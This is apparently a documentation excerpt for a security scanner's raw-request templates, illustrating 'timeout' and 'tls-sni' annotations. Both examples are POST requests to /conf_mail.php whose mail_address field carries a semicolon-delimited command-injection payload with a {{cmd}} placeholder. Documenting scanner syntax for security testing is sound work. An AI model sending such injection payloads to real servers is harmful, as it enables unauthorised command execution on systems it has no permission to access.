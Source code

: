 Example of a custom `timeout` annotations - 

```yaml
- |
  @timeout: 25s
  POST /conf_mail.php HTTP/1.1
  Host: {{Hostname}}
  Content-Type: application/x-www-form-urlencoded
  
  mail_address=%3B{{cmd}}%3B&button=%83%81%81%5B%83%8B%91%97%90M
```

Example of `sni` annotation with `interactsh-url` - 

```yaml
- |
  @tls-sni: interactsh-url
  POST /conf_mail.php HTTP/1.1
  Host: {{Hostname}}
  Content-Type: application/x-www-form-urlencoded
  
  mail_address=%3B{{cmd}}%3B&button=%83%81%81%5B%83%8B%91%97%90M
```